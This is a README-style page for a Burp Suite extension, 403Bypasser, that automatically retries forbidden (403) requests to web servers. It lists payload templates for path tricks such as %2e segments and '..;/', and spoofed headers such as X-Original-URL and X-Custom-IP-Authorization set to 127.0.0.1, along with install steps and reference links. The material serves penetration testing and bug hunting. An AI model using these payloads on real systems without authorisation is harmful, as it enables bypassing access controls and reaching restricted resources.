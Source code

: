 # 添加自己的规则

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201203214401315.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201203214306848.png)

https://twitter.com/infosecsanyam/status/1331146922011324417

https://twitter.com/i_hack_everyone/status/1332027600726753280

https://github.com/lobuhi/byp4xx/blob/main/byp4xx.sh#L70

https://twitter.com/jae_hak99/status/1333811754745249792

https://twitter.com/h4x0r_dz/status/1317218511937261570

https://github.com/KathanP19/HowToHunt/blob/master/WAF_Bypasses/WAF_Bypass_Using_headers.md



## GitHub

项目地址：https://github.com/SummerSec/Bypass403or401

---



# 403Bypasser

An burpsuite extension to bypass 403 restricted directory. By using PassiveScan (default enabled), each 403 request will be **automatically** scanned by this extension, so just add to burpsuite and enjoy.

Payloads: 
$1: HOSTNAME
$2: PATH
```
$1/$2
$1/%2e/$2
$1/$2/.
$1//$2//
$1/./$2/./
$1/$2 -H "X-Original-URL: /$2" 
$1/$2 -H "X-Custom-IP-Authorization: 127.0.0.1" 
$1/$2 -H "X-Rewrite-URL: /$2"
$1/$2%20/
$1/%20$2%20/

$1/$2..;/
```

## Installation

`BurpSuite -> Extender -> Extensions -> Add -> Extension Type: Python -> Select file: 403bypasser.py -> Next till Fininsh`

## Screenshot
<img src="ScreenShot.png" width="450"/>

## References:
* [https://twitter.com/iam_j0ker/status/1324354024657711106?s=20](https://twitter.com/iam_j0ker/status/1324354024657711106?s=20)
* [https://twitter.com/jae_hak99/status/1297556269960540161?s=20](https://twitter.com/jae_hak99/status/1297556269960540161?s=20)
* [https://twitter.com/SalahHasoneh1/status/1296572143141031945](https://twitter.com/SalahHasoneh1/status/1296572143141031945)
